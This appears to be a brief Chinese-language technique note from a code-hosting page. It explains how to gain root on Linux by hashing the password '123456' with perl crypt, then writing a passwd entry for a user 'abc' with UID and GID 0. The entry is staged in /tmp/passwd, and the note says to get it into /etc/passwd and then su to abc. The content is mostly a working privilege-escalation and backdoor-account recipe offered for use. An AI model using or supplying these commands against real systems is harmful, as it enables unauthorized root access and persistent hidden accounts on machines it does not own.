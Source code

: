 ## 在linux系统中创造一个用户及其密码

```
perl -le 'print crypt("123456","salt")'　　将123456用盐值加密

加密后得sahL5d5V.UWtI
接着创造一个以123456为密码的用户

echo "abc:sahL5d5V.UWtI:0:0:abc:/root:/bin/bash" >> /tmp/passwd
创造一个abc用户，其密码是123456
```

接着就是想办法将/tmp/passwd的内容写入/etc/passwd中了
写入之后，便su abc, 然后输入123456就可以切换到root了

